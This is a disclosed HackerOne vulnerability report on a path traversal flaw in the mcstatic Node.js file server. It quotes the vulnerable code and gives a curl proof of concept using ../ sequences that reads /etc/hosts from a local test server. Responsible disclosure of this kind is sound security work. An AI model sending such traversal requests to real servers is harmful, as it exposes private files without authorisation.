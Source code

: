 # [mcstatic] Path Traversal allows to read content of arbitrary files

## Report Details
- **Report ID**: 312907
- **URL**: https://hackerone.com/reports/312907
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-06T15:43:16.553Z
- **Disclosed**: 2018-04-24T19:46:53.316Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

There is Path Traversal in mcstatic module.
It allows to read content of arbitrary files on the remote server.

## Module

**mcstatic**

This is a general file server made by nodejs. It will be easy for you to access the files on the server through the browser.

https://www.npmjs.com/package/mcstatic

version: 0.0.20

Stats
0 downloads in the last day
38 downloads in the last week
150 downloads in the last month

~1800 estimated downloads per year


## Description

Lack of file path sanitization causes that any file on the server might be read by malicious user.

If we follow code flow, we find that first file name is read from ```req.url``` and check if exists:

```javascript
// node_modules/mcstatic/lib/staticFileHandler.js, line 19:
    var filePath = httpHelpers.getRequestPathFromUrl(req.url);
    var mockedFilePath = findMockFilePath(filePath,mockPaths);
    if(mockedFilePath)
        filePath = mockedFilePath;

    var file = path.normalize(path.join(root,filePath));
    fs.stat(file,function(error, stats){
        if(error)
            return statusHandlers[500](res, nextHandler, { error: error });
```

Depends on HTTP method used, handler function is called (here's for GET):

```javascript
// node_modules/mcstatic/lib/staticFileHandler.js, line 39:
if (req.method === 'GET')
        return responseHandlers.handleGet(res,file, stats, nextHandler);
```

```handleGet``` maps to ```streamResponse``` in ```responseHanders.js```:

```javascript
// node_modules/mcstatic/lib/responseHandlers.js, line 22:
var streamResponse = function(res, file, stat, next){
    var stream = fs.createReadStream(file);
    res.setHeader('content-length', stat.size);

    stream.pipe(res);
    stream.on('error', function (err) {
        statusHandlers['500'](res, next, { error: err });
    });

    stream.on('end', function () {
        res.statusCode = 200;
        res.end();
    });
};
```

We can see (line 23) that ```stream``` is created directly from ```file``` and piped to ```res``` response object.


## Steps To Reproduce:


- install ```mcstatic```:

```
$ npm install mcstatic
```

- run ```mcstatic``` in direcotry of your choice:

```
me:~/playground/hackerone/Node$ ./node_modules/mcstatic/bin/mcstatic 
mcstatic serving ./ on port 8080
```

- execute following ```curl``` command (adjust number of ../ to reflect your system):

```
$ curl -v --path-as-is http://127.0.0.1:8080/../../../../../etc/hosts
```

- see result:

```
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /../../../../../etc/hosts HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< last-modified: Tue, 23 Jan 2018 14:51:52 GMT
< content-length: 188
< content-type: application/octet-stream
< Date: Tue, 06 Feb 2018 15:40:51 GMT
< Connection: keep-alive
< 
127.0.0.1	localhost
127.0.1.1	LT0081U2

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
* Connection #0 to host 127.0.0.1 left intact
```

## Supporting Material/References:


- Ubuntu 16.04 LTS
- Chromium 66.0.3333.0 (Developer Build) (64-bit) 
- Node.js version: v8.9.4 LTS
- npm version: 5.6.0
- curl 7.47.0


Please feel free to invite module maintainer to this report. I haven't contacted maintainer as I want to keep the process of fixing and disclosing bug consistent through HackerOne platform only.

I hope my report will help to keep Node.js ecosystem and its users safe in the future.

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability allows to read content of any file on the server where module is run.

## Attachments
No attachments

